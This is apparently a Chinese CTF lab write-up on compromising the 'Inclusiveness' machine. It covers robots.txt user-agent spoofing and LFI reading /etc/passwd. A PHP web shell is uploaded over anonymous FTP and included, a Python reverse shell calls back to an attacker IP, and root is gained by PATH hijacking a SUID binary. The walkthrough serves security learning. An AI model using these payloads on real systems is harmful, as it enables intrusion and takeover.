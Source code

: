 # Inclusiveness
## 1. 信息收集
 信息收集细节不展开阐述，只展示结果。
```
端口：
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

服务器：
Apache2 Debian

可疑目录：
http://192.168.212.14/robots.txt
```
## 2. 立足点获取
### 2.1 FTP
尝试 Anonymous 登陆，密码为空
![[Pasted image 20240815103138.png]]
登陆成功，可以上传文件，继续下一个端口，看后续能不能找出执行恶意代码的方法
### 2.2 SSH
尝试弱口令
```
ssh admin@192.168.212.14
admin admin
admin 123456
```
失败

### 2.3 HTTP
访问 `http://192.168.212.14/robots.txt`
![[Pasted image 20240815103657.png]]
提示不是 search engine，所以尝试修改 UA 头，改为 `GoogleBot`
```
sudo curl -s --user-agent GoogleBot http://192.168.212.14/robots.txt  -v
```

访问成功
![[Pasted image 20240815103907.png]]
发现敏感目录
`http://192.168.212.14/secret_information/`

尝试访问
![[Pasted image 20240815104007.png]]

点击 `english`，发现有 GET 传参
`http://192.168.212.14/secret_information/?lang=en.php`

猜一下是不是 LFI 漏洞
`http://192.168.212.14/secret_information/?lang=/etc/passwd`
显示文件内容，是 LFI
![[Pasted image 20240815104154.png]]

于是思路通了，在 FTP 上传恶意代码，再用上面那个页面去包含它，也就是执行。
回到ftp，进入目录 `/pub`
![[Pasted image 20240815104351.png]]

本地编写一句马
```
// tmp.php:
<?php system($_GET['cmd']); ?>
```

在 FTP 上传
```
put tmp.php
```
![[Pasted image 20240815104606.png]]

尝试 FTP 默认路径
```
http://192.168.212.14/secret_information/?lang=/var/ftp/pub/tmp.php&cmd=whoami
```

执行成功
![[Pasted image 20240815105004.png]]

上 reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

连接成功
![[Pasted image 20240815105221.png]]

获取第一个flag
```
/home/tom
```
![[Pasted image 20240815105349.png]]

## 3. 提权
在这个目录下发现了可疑的东西
```
rootshell
rootshell.c
```
很可能 `rootshell` 就是 `rootshell.c` 编译过来的

查看源码
![[Pasted image 20240815105459.png]]
```
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r"); // 开管道

    char user[80];
    fgets(user, 80, f); // 接收 whoami 的结果

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) { // 如果是 tom
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0); // 就以当前用户权限开一个 shell
    }
}
```

以当前用户权限开一个 shell。。。那看一下当前用户是谁
是 root !!!!
其实从文件名 `rootshell` 也可以看出，这是个提权点
![[Pasted image 20240815105752.png]]
用户可以执行，且这个文件以 root 权限执行。

那么就新建一个 `whoami`，令其强制输出 "tom"，放在环境变量的最前面，就可以骗过程序，得到 root 权限。保险起见，将这个新的 `whoami` 写入 `/tmp` 文件夹内
```
在 /tmp 下
echo "printf "tom"" > whoami // 将 `printf "tom"` 写入文件 whoami，如果没有这个文件，就创建
```
```
export PATH=/tmp:$PATH // /tmp 下的 whoami 会出现在环境变量的最前面，“覆盖”之前的whoami
chmod +x whoami // 可以用 ls -la 查看，刚开始这个文件没有执行权限，要加上执行权限
```

回到 `home/tom`，执行 `rootshell`
![[Pasted image 20240815110610.png]]
提权成功

获取最后一个 flag，结束
![[Pasted image 20240815110650.png]]


## 4. 8.17 再打
直接 FTP 上传 `PHP` reverse shell 失败

弄清楚 GET 传参的 `?` 与 `&`

当时发生了什么？可能是 root `sudo chmod u+s test_setuid` ，以 root 权限设置了 SUID 位。然后这个文件的 EUID 就为 0 (root)，接着 `rootshell.c` 中 `setuid(geteuid())` 将 root 的 ID 设置为实际用户 ID，进行提权。然后又以现在的 ID 开启了 `sh`，从而提权。***(没全懂)***
- `geteuid()` 获取当前进程的有效用户ID。
- `setuid()` 将实际用户ID设置为该有效用户ID。

科普：
 实际用户 ID (Real User ID)
- **定义**: 实际用户 ID 是启动进程的用户的 ID。它代表了进程的创建者。
- **用途**: 用于确定进程的归属和控制访问权限。实际上，进程的所有操作通常都基于其实际用户 ID 来判断是否具有访问权限。
- **示例**: 如果用户 `alice` 启动了一个进程，那么这个进程的实际用户 ID 就是 `alice` 的用户 ID (例如，1000)。

有效用户 ID (Effective User ID)
- **定义**: 有效用户 ID 是在进程执行时决定权限的 ID。它控制进程执行时的权限和访问权限。
- **用途**: 当进程执行具有 setuid 权限的程序时，有效用户 ID 被设置为程序文件的拥有者的用户 ID。这样，进程可以以程序文件的拥有者的权限执行操作，即使启动进程的用户可能没有这些权限。
- **示例**: 如果用户 `alice` 运行一个 `setuid` 程序，该程序的文件拥有者是 `root`，那么程序的有效用户 ID 将是 `root` 的用户 ID (例如，0)。


